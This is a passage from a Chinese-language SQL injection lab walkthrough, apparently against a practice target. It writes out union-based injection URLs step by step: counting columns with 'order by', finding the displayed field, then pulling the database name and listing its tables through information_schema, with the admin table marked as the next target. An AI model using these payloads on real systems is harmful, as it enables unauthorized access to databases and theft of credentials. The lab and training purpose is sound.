 回车后页面正常显示：

![](https://pic1.imgdb.cn/item/646f6c1df024cca173f09157.jpg)

地址栏输入：

```
http://pu2lh35s.ia.aqlab.cn/?id=1 order by 3
```

回车后页面显示错误：

![](https://pic1.imgdb.cn/item/646f6cf9f024cca173f1de97.jpg)

由此可以断定当前页面有2个回显字段

接下来是通过联合查询查看字段在前端的回显位置

地址栏输入：

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=2 union select 1,2
```

回车后页面显示：

![](https://pic1.imgdb.cn/item/646f6da2f024cca173f2cd65.jpg)

说明圈起来的那个字段是可利用的回显字段

接下来是利用这个字段来查询当前页面的数据库名

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=2 union select 1,database()
```

回车后的页面：

![](https://pic1.imgdb.cn/item/646f6e8bf024cca173f44560.jpg)

得到了数据库名 `maoshe` 

接下来是查询数据库 `maoshe`里有哪些表名

地址栏输入：

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema = "maoshe"
```

 回车后的页面：

![](https://pic1.imgdb.cn/item/646f6f66f024cca173f5942c.jpg)

得到了 `maoshe` 数据库下的所有表名： `admin`,`dirs`,`news`,`xss`

根据经验，`admin`表（admin意思是管理员）里肯定有“好东西”

> 当然，可以每个表都查一遍
